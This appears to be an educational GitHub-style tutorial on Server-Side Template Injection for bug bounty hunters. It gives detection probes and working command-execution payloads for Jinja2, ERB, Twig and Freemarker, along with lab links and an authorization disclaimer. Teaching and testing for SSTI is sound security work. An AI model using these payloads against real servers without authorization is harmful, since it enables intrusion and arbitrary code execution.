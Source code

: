 # 🔥 Server-Side Template Injection (SSTI) — Explained with Payloads 🔥

Learn how to detect and exploit SSTI vulnerabilities across popular template engines used in modern web applications.

---

## 🔍 What is SSTI?

**Server-Side Template Injection (SSTI)** occurs when unsanitized user input is directly embedded into server-side templates.  
If exploited, this vulnerability may allow **arbitrary code execution** on the server — making it a high-risk issue.

Common template engines vulnerable to SSTI:

- ⚡️ **Jinja2** (Python)
- ⚡️ **Twig** (PHP)
- ⚡️ **Freemarker** (Java)
- ⚡️ **ERB** (Ruby)
- ⚡️ **Handlebars** (Node.js)

---

## 🧪 SSTI Detection Payloads

Inject these simple math operations into form fields, URLs, or headers to test for template evaluation:

| Payload        | Expected Output | Engine        |
|----------------|------------------|----------------|
| `{{7*7}}`      | `49`             | Jinja2, Twig   |
| `${7*7}`       | `49`             | Java-based     |
| `<%= 7*7 %>`   | `49`             | ERB (Ruby)     |

---

## 💣 Exploitation Examples

### 🟥 Jinja2 RCE (Python)
```jinja
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

🟧 Ruby ERB (Ruby)
```
<%= `id` %>
```

🟨 Twig (PHP)
```
{{ ['id']|filter('system') }}
```
🟦 Freemarker (Java)
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id") }
```
🟩 Handlebars (Node.js)
```
{{#with "s" as |string|}}...{{/with}}
```
➡️ Leads to: require('child_process').exec()

## 📚 Bonus Labs & Resources
🔗 [PortSwigger Basic SSTI Lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

🔗 [PortSwigger Research on SSTI](https://portswigger.net/research/server-side-template-injection)

🔗 [SSTI Cheatsheet GitHub](https://github.com/epinna/weevely3/wiki/Server-Side-Template-Injection)

### 🔐 **Pro Tips**
- 1️⃣ Always URL encode payloads during real-world testing.
- 2️⃣ Know your target: payloads depend on the engine used.
- 3️⃣ Analyze error messages — they often reveal the template engine.

### 🚨 Disclaimer
- 🔐 This material is intended for educational purposes only.
- 🔐 Always get proper authorization before performing any security tests.
- 🔐 Testing without permission is illegal and unethical.

📢 **Follow & Share**
💬 Join our community for daily cybersecurity tips, tricks, and deep-dives:
👉 @cybersecplayground
> 💥Our Payload list for ssti : [https://github.com/cybersecplayground/bugbounty...](https://github.com/cybersecplayground/bugbounty-Tips-and-Tricks/blob/main/Payloads/SSTI_Payloads.txt)

Help your team stay safe — share this knowledge! 🚀

#bugbountytips #infosec #ssti #ethicalhacking #cybersecurity #bugbounty

